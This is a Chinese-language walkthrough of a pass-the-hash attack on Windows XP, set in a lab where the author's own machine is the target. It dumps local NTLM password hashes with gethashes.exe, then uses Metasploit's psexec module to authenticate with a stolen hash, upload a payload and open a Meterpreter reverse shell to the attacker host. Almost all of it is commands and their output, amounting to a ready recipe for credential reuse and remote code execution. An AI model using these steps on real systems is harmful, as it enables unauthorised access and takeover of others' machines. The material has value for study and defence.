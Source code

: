 # 使用Hash直接登录Windows

首先,在本地主机（假设为目标主机）  新建一个wooyun用户,并为之设置密码,然后通过gethashes.exe获取到HASH 

```
C:\>net user wooyun test 

The command completed successfully. 

C:\>gethashes.exe $local 

1:1007:C2265B23734E0DACAAD3B435B51404EE:69943C5E63B4D2C104DBBCC15138B72B::: 

Administrator:500:0A174C1272FCBCF7804E0502081BA8AE:83F36A86631180CB9F5F53F5F45DF 

B2B::: 

Guest:501:AAD3B435B51404EEAAD3B435B51404EE:31D6CFE0D16AE931B73C59D7E0C089C0::: 

HelpAssistant:1000:CF88594C2AC20629EEF3D6DABD2DA92D:0FCE98570CBB9C14E8FF200353B2 

707B::: 

wooyun:1003:01FC5A6BE7BC6929AAD3B435B51404EE:0CB6948805F797BF2A82807973B89537::: 

SUPPORT_388945a0:1002:AAD3B435B51404EEAAD3B435B51404EE:F9E8AE6C7229EA07EFAC12715 

F954B83::: 

**vmware_user**:1006:AAD3B435B51404EEAAD3B435B51404EE:915D1CEE456EA4DD6A8094F7CE 

094448::: 

C:\> 

```然后我再返回我的BT虚拟机(攻击者主机)使用MSF进行测试，MSF自带的PSEXEC模块具有HASH传递攻击功能 ```
root@bt:~# msfconsole 

                ##                          ###           ##    ## 

##  ##  #### ###### ####  #####   #####    ##    ####        ######   


###### # ##  ##  ##  ##         ## ##  ##    ##   ##  ##   ###   ##   


###### # ######  ##  #####   ####  ##  ##    ##   ##  ##   ##    ##   


## # ##     ##  ##  ##  ## ##      #####    ##   ##  ##   ##    ##   


##   ##  #### ###   #####   #####     ##   ####   ####   #### ###   


                                      ## 

       =[ metasploit v3.7.0-release [core:3.7 api:1.0] 

+ \-- -|-=[ 684 exploits - 355 auxiliary 

+ \-- -|-=[ 217 payloads - 27 encoders - 8 nops 

       =[ svn r12536 updated 76 days ago (2011.05.04) 

Warning: This copy of the Metasploit Framework was last updated 76 days ago. 

         We recommend that you update the framework at least every other day. 

         For information on updating your copy of Metasploit, please see: 

             http://www.metasploit.com/redmine/projects/framework/wiki/Updating 

msf > use exploit/windows/smb/psexec 

msf exploit(psexec) > show options 

Module options (exploit/windows/smb/psexec): 

   Name       Current Setting  Required  Description 

   \---|-       \---|\---|\---|\---|\---|  \---|\---|--  \---|\---|\---|-- 

   RHOST                       yes       The target address 

   RPORT      445              yes       Set the SMB service port 

   SHARE      ADMIN$           yes       The share to connect to, can be an admi                                              n share 

(ADMIN$,C$,...) or a normal read/write folder share 

   SMBDomain  WORKGROUP        no        The Windows domain to use for authentic                                              ation 

   SMBPass                     no        The password for the specified username 

   SMBUser                     no        The username to authenticate as 

Exploit target: 

   Id  Name 

   --  \---|- 

   0   Automatic 

msf exploit(psexec) > set RHOST 192.168.0.254 

RHOST => 192.168.0.254 

msf exploit(psexec) > set SMBUser wooyun 

SMBUser => wooyun 

msf exploit(psexec) > set SMBPass 01FC5A6BE7BC6929AAD3B435B51404EE:0CB6948805F797BF2A82807973B89537                                             

SMBPass => 01FC5A6BE7BC6929AAD3B435B51404EE:0CB6948805F797BF2A82807973B89537 

msf exploit(psexec) > show options 

Module options (exploit/windows/smb/psexec): 

   Name       Current Setting                                                                                                  Required 

Description 

   \---|-       \---|\---|\---|\---|\---|                                                                                                  \---|\---|--  \---|-- 

\---|\---| 

   RHOST      192.168.0.254                                                                                                    yes       The 

target address 

   RPORT      445                                                                                                              yes       Set 

the SMB service port 

   SHARE      ADMIN$                                                                                                           yes       The 

share to connect to, can be an admin share (ADMIN$,C$,...) or a n                                              ormal read/write folder share 

   SMBDomain  WORKGROUP                                                                                                        no        The 

Windows domain to use for authentication 

   SMBPass    01FC5A6BE7BC6929AAD3B435B51404EE:0CB6948805F797BF2A82807973B89537                                                no        The 

password for the specified username 

   SMBUser    wooyun                                                                                                           no        The 

username to authenticate as 

Exploit target: 

   Id  Name 

   --  \---|- 

   0   Automatic 

msf exploit(psexec) > exploit 

[*] Started reverse handler on 192.168.0.3:4444 </p> 
[</em>] Connecting to the server... 

[*] Authenticating to 192.168.0.254:445|WORKGROUP as user 'wooyun'... </p> 
[</em>] Uploading payload... 

[*] Created \UGdecsam.exe... </p> 
[</em>] Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.0.254[\svcctl] ... 

[*] Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.0.254[\svcctl] ... </p> 
[</em>] Obtaining a service manager handle... 

[*] Creating a new service (MZsCnzjn - "MrZdoQwIlbBIYZQJyumxYX")... </p> 
[</em>] Closing service handle... 

[*] Opening service... </p> 
[</em>] Starting the service... 

[*] Removing the service... </p> 
[</em>] Closing service handle... 

[*] Deleting \UGdecsam.exe... </p> 
[</em>] Sending stage (749056 bytes) to 192.168.0.254 

[*] Meterpreter session 1 opened (192.168.0.3:4444 -> 192.168.0.254:1877) at 2011-07-19 03:57:17 +0800 

meterpreter > sysinfo 

Computer        : WOOYUN-PC 

OS              : Windows XP (Build 2600, Service Pack 2). 

Architecture    : x86 

System Language : zh_CN 

Meterpreter     : x86/win32 

meterpreter > shell 

Process 4596 created. 

Channel 1 created. 

Microsoft Windows XP [Version 5.1.2600] 

(C) Copyright 1985-2001 Microsoft Corp. 

C:\WINDOWS\system32>net user 

net user 

User accounts for \ 

\---|\---|\---|\---|\---|\---|\---|\---|\---|\---|\---|\---|\---|\---|\---|\---|\---|\---|\---|\---|\---|\---|\---|\---|\---|\---|- 

**vmware_user**          1                        Administrator 

Guest                    HelpAssistant            wooyun 

SUPPORT_388945a0 

The command completed with one or more errors. 

C:\WINDOWS\system32> 

```至此,我们已经成功获得目标的CMDSHELL